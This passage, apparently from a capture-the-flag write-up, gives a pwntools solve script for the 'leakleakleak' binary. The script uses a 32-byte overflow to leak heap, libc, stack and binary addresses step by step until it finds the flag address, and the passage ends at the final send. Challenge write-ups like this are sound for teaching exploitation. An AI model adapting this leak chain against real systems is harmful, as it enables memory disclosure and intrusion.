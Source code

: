 In the end, there's the `solve.py` (if you're confused by the `_patched` in the exe name, it's cuz I use [pwninit](https://github.com/io12/pwninit) but removing it also works):
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./leakleakleak_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal = ['alacritty', '-e']


def conn():
    if args.REMOTE:
        io = remote("0.0.0.0", 5000)
    else:
        if args.GDB:
            io = gdb.debug([exe.path])
        else:
            io = process([exe.path])
            #gdb.attach(io)
    return io


def main():
    io = conn()

    io.sendline(b'A' * 32)
    io.recvuntil(b'Hello ')
    io.recvuntil(b'\n')
    heap_leak = (b'\x00' + io.recvuntil(b'!\n')[:-2]).ljust(8, b'\x00')
    heap_leak = u64(heap_leak)
    info(f'heap leak: {hex(heap_leak)}')

    libc_addr = heap_leak + 0x110
    io.sendafter(b'Continue?', b'Y')
    io.sendafter(b'name', b'A' * 32 + p64(libc_addr))
    io.recvuntil(b':3\n')
    libc_leak = u64(io.recv(6).ljust(8, b'\x00'))
    info(f'libc leak: {hex(libc_leak)}')

    libc.address = libc_leak - 2208601

    stack_addr = libc.symbols['__environ']
    io.sendafter(b'Continue?', b'Y')
    io.sendafter(b'name', b'A' * 32 + p64(stack_addr))
    io.recvuntil(b':3\n')
    stack_leak = u64(io.recv(6).ljust(8, b'\x00'))
    info(f'stack leak: {hex(stack_leak)}')

    bin_addr = stack_leak - 0x150
    io.sendafter(b'Continue?', b'Y')
    io.sendafter(b'name', b'A' * 32 + p64(bin_addr))
    io.recvuntil(b':3\n')
    bin_leak = u64(io.recv(6).ljust(8, b'\x00'))
    info(f'bin leak: {hex(bin_leak)}')

    flag_addr = bin_leak + 0x2d1e + 36
    info(f'flag addr: {hex(flag_addr)}')
    io.sendafter(b'Continue?', b'Y')
    io.sendafter(b'name', b'A' * 32 + p64(flag_addr))
```